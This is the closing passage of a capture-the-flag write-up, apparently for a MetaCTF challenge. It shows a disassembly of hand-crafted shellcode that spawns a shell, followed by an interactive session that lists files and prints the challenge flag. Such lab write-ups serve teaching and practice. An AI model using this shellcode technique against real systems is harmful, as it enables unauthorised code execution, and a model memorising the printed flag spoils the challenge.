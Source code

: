 ```
...
  7f:   90                      nop
  80:   48 80 c6 f6             rex.W add sil, 0xf6
  84:   00 00                   add    BYTE PTR [rax], al
  86:   00 30                   add    BYTE PTR [rax], dh
  88:   f6 48 30 d2             test   BYTE PTR [rax+0x30], 0xd2
  8c:   48 30 c0                rex.W xor al, al
  8f:   b0 3a                   mov    al, 0x3a
  91:   0e                      (bad)  
  92:   04 90                   add    al, 0x90
  94:   90                      nop
...
  f5:   90                      nop
  f6:   2e 62                   cs (bad) 
  f8:   68 6e 2e 72 68          push   0x68722e6e
        ...
[*] Switching to interactive mode

$ ls
flag.txt
two
two.sh
$ cat flag.txt
MetaCTF{eVEn_evEN_8y7e5_c4N_re4cH_0Dd_Re9157eRs}
```
Thanks for reading!
